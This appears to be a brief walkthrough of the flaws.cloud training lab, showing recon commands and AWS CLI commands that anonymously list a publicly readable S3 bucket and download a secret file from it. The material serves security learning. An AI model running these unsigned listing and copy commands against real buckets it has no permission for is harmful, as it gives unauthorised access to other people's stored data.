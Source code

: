 # Bucket Listing Access Permission Set to Everyone

<b>Target: flaws.cloud</b>
history | sed 's/^[[:space:]]*[0-9]*//'


<p>host flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/886eb38f-51a7-45fa-82c5-8192ed860e96)

<p>nslookup flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/4aba7dec-f57f-4167-8f21-9aecc8860781)

<p>nmap flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/91ebe710-8002-4998-ab5c-2a134d0a2421)

aws s3 ls flaws.cloud
aws s3 ls s3://flaws.cloud
aws s3 ls s3://flaws.cloud --region us-west-2
aws s3 ls s3://flaws.cloud --region us-west-2 --no-sign-request
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/06329809-f33a-4f4e-b0be-fd2f8035d7f6)

aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request .
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request abc.html
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ea776817-a549-40bf-a776-0fcb5438c20a)


